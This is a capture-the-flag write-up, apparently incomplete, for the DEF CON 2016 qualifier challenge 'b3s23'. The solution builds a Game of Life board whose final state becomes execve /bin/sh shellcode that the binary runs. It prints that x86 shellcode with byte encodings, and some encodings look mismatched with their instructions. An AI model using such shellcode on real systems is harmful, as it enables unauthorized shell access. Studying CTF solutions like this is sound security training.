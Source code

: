 # DEFCON Qualifier 2016: b3s23

----------
## Challenge details
| Contest        | Challenge     | Category  | Points | Solves |
|:---------------|:--------------|:----------|-------:|-------:|
| DEF CON CTF Quals 2016 | b3s23 | Coding Challenges |    111 | 34 |

**Description:**

> Please enjoy a Game of Life at b3s23_28f1ea914f8c873d232da030d4dd00e8.quals.shallweplayaga.me:2323
>
> [Download](http://download.quals.shallweplayaga.me/28f1ea914f8c873d232da030d4dd00e8/b3s23)

-------

## Write-up

### Background

From [Wikipedia](https://en.wikipedia.org/wiki/Conway%27s_Game_of_Life) we learn that b3s23 is the standard way of symbolizing Conway's Game of Life, where a cell is born if it has exactly 3 neighbors, survives if it has 2 or 3 living neighbors, or dies if neither is true. 

### Binary Details

```bash
$ file b3s23
ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, stripped
```

### Execution
Upon running the binary we receive the following:
```bash
$ docker run -i legitbs/b3s23
Welcome to b3s23.  Enter x,y coordinates.  Enter any other character to run.
```
It is assumed that we need to enter coordinates in the form x,y (e.g. 1,2) followed by any other character in order to set the positions of the initial live cells on the gameboard and iterate the Game of Life. For example, in order to create a a Block, a [still life](https://en.wikipedia.org/wiki/Still_life_(cellular_automaton)), one could enter the following,
```
0,0
0,1
1,0
1,1
a
```
An excerpt of the output would be
```
110000
110000
000000
```
It was observed from the output that the game was iterating 15 times and then the connnection was closed. The output contained a 110x110 gameboard. I verified that if a coordinate less than 0 or greater than 109 was entered the following error would be printed.
```bash
110,0
Illegal Coordinate!
```
While running it locally, a `Segmentation fault (core dumped)` was reported. The initial assumption was that the result of the final iteration from the Game of Life was being executed by the binary somehow.

### Reverse Engineering

(TBD)

### Solution
To solve this challenge I decided to construct an initial Game of Life board such that the final board would contain assembly code that when executed would provide an interactive shell to the client. I started with the following execve shellcode,

```assembly
xor    %eax,%eax        ; "\x31\xC0"
push   %eax             ; "\x50"
push   $0x68732f2f      ; "\x68\x2F\x2F\x73\x68"
push   $0x6e69622f      ; "\x68\x2F\x62\x69\x6E"
mov    %esp,%ebx        ; "\x89\xDC"
push   %eax             ; "\x50"
push   %ebx             ; "\x53"
mov    %esp,%ecx        ; "\x89\xCC"
mov    $0xb,%al         ; "\xA2\x00\x00\x00\x00"
int    $0x80            ; "\xCD\x80"     
```
This shellcode accomplishes the following,
1. Sets eax to 0 and then pushes the value on the stack to Null-terminate the execution string
2. Pushes the string "/bin/sh" on the stack
3. Moves the address of the string to ebx
4. Pushes eax on the stack again (still 0) in order to Null-terminate the char* array 

I decided to attempt to encode the shellcode using only still life constructions. This would ensure that the entire construction would remain at the end of the 15 iterations. At 22 bytes, the binary encoding of this shellcode would eventually wrap around the 110 bits of the first line of the game board. The issue with wrapping is that it complicates the intial Game of Life construction and most likely would result in destabilizing it. Therefore, I decided to try and reduce the size of the shellcode to only 13 bytes. 

By setting a breakpoint at `0xf661e000`, the address of the game board, I would be able to determine the state of the registers and stack prior to executing the shellcode. The result was the following

``` assembly
eax     0x0
ecx     0x0
edx     0x1
ebx     0xf67c7000    ; last coordinate address
esp     0xf6ffb6cc
eip     0xf661e000
```

Based on those register settings I could 
